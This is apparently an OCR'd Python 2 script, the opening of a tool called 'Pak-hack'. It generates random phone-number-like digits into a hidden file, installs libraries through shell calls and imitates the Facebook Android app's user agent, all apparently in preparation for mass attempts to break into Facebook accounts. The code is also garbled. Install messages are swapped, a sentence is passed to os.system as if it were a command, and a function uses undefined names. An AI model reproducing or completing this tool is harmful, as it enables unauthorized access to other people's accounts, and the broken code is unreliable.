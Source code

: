 
bin/python2
#coding=utf-8
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(10000):
 
    nmbr = random.randint(1111111, 9999999)
    
    sys.stdout = open('.txt', 'a')
 
    print(nmbr)
 
    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install mechanize')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install request')
    time.sleep(1)
    os.system('Then type: python2 Pak-hack')
 
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
 
 
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]
 
def keluar():
	print 'Thanks.'
	os.sys.exit()
 
def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)
 
 